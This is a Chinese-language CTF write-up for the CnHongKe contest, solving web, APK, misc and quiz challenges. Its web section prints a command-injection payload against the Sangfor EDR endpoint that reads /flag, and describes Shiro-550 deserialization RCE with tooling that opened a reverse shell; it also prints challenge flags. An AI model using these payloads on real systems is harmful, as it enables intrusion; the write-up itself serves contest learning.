2月5日

比赛情况：



小比赛

<!-- more -->



主办方平台关太快了2333，睡了一觉起来连平台都没了


## Sign

### Choice

PHP CGI解析漏洞出现的原因是（ ）

- A.cgi.fix_pathi配置错误

- B.cgi.fix_pathinfo配置错误

- C.phpinfo配置错误

- D.cgi.fix__status_en配置错误

很显然是` cgi.fix_pathinfo `配置错误，当设置了cgi.fix_pathinfo = 1时，PHP就会以'/'为分割符从最后一个文件开始向前找存在的文件去执行，例如`/upload/a.jpg/b.php`.


---

### 扭转乾坤

扫码得flag


---


## Web

### EDR

深信服载入史册

直接payload打



Payload:

```
./?strip_slashes=system&host=cat /flag
```

这题去年有过，是作为线下赛的题目，当时没外网，只能硬审，或者...~~记得payload~~，毕竟太有名了...


---

### shiro

Shiro remeberMe反序列化漏洞（Shiro-550）

用户登录成功后会生成经过加密并编码的cookie。在服务端对rememberMe的cookie值，先base64解码然后AES解密再反序列化，就导致了反序列化RCE漏洞



可以如 [参考文章](https://www.cnblogs.com/sup3rman/archive/2020/07/16/13322898.html) 所示，利用`shiro.py`生成payload



当然后来才发现更简单的，直接用 `ShiroScan` 工具，可以用DNSlog的方式，也可以反弹shell，这里直接反弹shell



成功弹到shell




---

### fast x 3

老脚本大师了



写个py脚本即可，直接上payload，蹩脚编程，师傅们见谅...

```python
# -*- coding: UTF-8 -*-
"""
@Time ： 2021/2/5 9:22
@Auth ： gyy
@Blog ：http://err0r.top

"""
import requests
import collections
url = "http://180.109.90.207:23891/"

session = requests.session()

data = {
    "submit": "提交"
}
responses = session.get(url)
print(responses.content.decode('utf-8'))

print ("1--------------------------------取字符串")
cal = responses.text.replace("\r", "").replace('\n', "").replace(" ", "").split('<b>')[1].split('</b>')[0].replace("<divid=\"math\">","").replace("</div>","")
print (cal)

print ("2--------------------------------计数")
str = collections.Counter(cal)
str1 = dict(str)
print(str1)

print ("3--------------------------------排序")
from collections import OrderedDict
str2 = OrderedDict(sorted(str1.items(), key=lambda x:x[1]))
print(str2)
print ("4--------------------------------取key")
val = ""
for i in str2:
    print(i)
    val += i
val = val
print(val)

print ("5--------------------------------赋data")
data['res'] = val
print(data)

print ("6--------------------------------提交")
post_responses = session.post(url, data=data).content.decode('utf-8')

print(post_responses)
```

编编改改凑合用




---

## Apk

### Des

2015ISCC的题目改题`没有题目的题目`

主要代码

```
   public boolean check() {
        byte[] b2 = {103, 112, 111, 49, 61, 113, 117, 109, 76, 108, 77, 57, 59, 90, 64, 105, 33, 89, 74, 113, 92, 84, 87, 113, 105, 65, 35, 74, 93, 73, 43, 120};
        byte[] b3 = this.result1.getBytes();
        for (int j = 0; j < b3.length; j++) {
            Log.d("test", ((byte) (b3[j] ^ j)));
        }
        if (b3.length != b2.length) {
            return false;
        }
        for (int j2 = 0; j2 < b2.length; j2++) {
            if ((b3[j2] ^ b2[j2]) != j2) {
                return false;
            }
        }
        return true;
    }
```

exp:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pyDes import *
import base64
V0 = [103, 112, 111, 49, 61, 113, 117, 109, 76, 108, 77, 57, 59, 90, 64, 105, 33, 89, 74, 113, 92, 84, 87, 113, 105, 65, 35, 74, 93, 73, 43, 120]
def DeCheck(str):
    v1 = []
    for i in range(len(str)):
        v1.append(chr(str[i] ^ i))
    xx = "".join(v1)
    ##print xx
    return base64.b64decode(xx)
if __name__ == '__main__':
    key = 'ilovedes'
    iv = '\x01\x02\x03\x04\x05\x06\x07\x08'
    k = des(key, CBC, iv, pad=None, padmode=PAD_PKCS5)
    flag = k.decrypt(DeCheck(V0))
    print "Your flag is: " + flag
```





参考链接：http://bobao.360.cn/ctf/learning/136.html


---

## Misc

### DTMF

电话音，网上有在线识别网站

http://dialabc.com/sound/detect/index.html

格式要求`.wav`，先用ffmpeg转格式



再放上去识别



```
CnHongKe{A18D3B18C*231#}
```


---

### HalfQR

二维码修复网站 https://merricx.github.io/qrazybox/



手 撸




然后



最后

```
CnHongKe{f88ae38f450e76d3c92410e3650df67}
```

也可以手算...毕竟数据域的半边东西给了


---

## 总结

这些题目作为线下赛题目是难了，毕竟去年有过一次线下，线上赛就不说了，神仙乱斗2333，还不用交WP，希望主办方能完善赛制，首先赛后都不用交WP是挺离谱的，其次题目的质量...其实还行，但作为线上还是简单了，一篇wp却写不出多少东西，通篇八题仅仅一千字，可能是题目问题，也有一部分我的问题，总之多多总结吧。



懂的都懂2333

还是有些收获的，提前祝大家新年快乐！